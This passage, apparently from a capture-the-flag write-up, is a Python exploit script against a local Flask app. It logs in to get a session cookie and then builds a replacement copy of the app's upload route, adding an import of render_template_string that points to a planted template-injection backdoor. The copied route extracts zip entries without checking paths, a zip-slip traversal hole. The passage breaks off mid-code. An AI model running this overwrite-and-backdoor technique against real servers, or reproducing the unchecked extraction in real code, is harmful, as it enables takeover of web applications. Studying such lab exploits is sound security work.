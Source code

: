  Here is the final script:
```python
from os import popen
import string
import requests
import io
import zipfile

SERVER_ADDR = "http://127.0.0.1:5000"

def get_cookie():
    data = {
        "username": "test", 
        "password": "test" 
    }

    req = requests.post(SERVER_ADDR+"/login", data=data)
    cookiejar = req.history[0].cookies
    cookie = cookiejar.get_dict()['session']

    return cookie

cookie = {"session": get_cookie()}

payload = """
import os
import zipfile

from app import app
from app.models import User
from flask import flash, redirect, render_template, request, url_for, send_from_directory, render_template_string # add this last import
from flask_login import current_user, login_required
from werkzeug.utils import secure_filename


@app.route('/upload', methods=['GET', 'POST'])
@login_required
def upload():
    if request.method=='POST':
        if 'file' not in request.files:
            flash('No file part', 'danger')
            return redirect(url_for('upload'))
        
        file = request.files['file']
        if file.filename == '':
            flash('No file selected', 'danger')
            return redirect(url_for('upload'))

        if not zipfile.is_zipfile(file):
            flash('The file you provided is not a zip!', 'danger')
            return redirect(url_for('upload'))
        
        filename = secure_filename(file.filename)
        upload_dir = app.config['UPLOAD_FOLDER'] + "/" + filename.rsplit('.', 1)[0]
        try:
            os.makedirs(upload_dir)
        except FileExistsError:
            flash('An extracted zip with this name already exists', 'danger')
            return redirect(url_for('upload'))

        with zipfile.ZipFile(file, "r") as zf:
            for f in zf.infolist():
                with open(os.path.join(upload_dir, f.filename), 'wb') as tf:
```